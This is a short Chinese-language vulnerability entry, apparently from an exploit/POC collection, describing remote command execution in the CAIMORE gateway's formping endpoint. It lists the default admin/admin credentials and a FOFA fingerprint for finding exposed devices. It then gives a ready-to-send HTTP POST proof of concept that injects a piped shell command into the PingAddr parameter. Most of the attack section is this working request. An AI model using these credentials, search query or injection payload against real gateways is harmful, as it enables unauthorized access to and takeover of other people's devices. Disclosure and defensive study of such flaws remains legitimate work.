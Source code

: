 # 才茂通信 网关 formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关 formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

```
才茂通信 网关
```

## FOFA

```
app="CAIMORE-Gateway"
```

## 漏洞复现

登陆页面，默认口令 admin/admin

![image-20230417100349175](images/image-20230417100349175.png)

验证POC

```
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![image-20230417100401289](images/image-20230417100401289.png)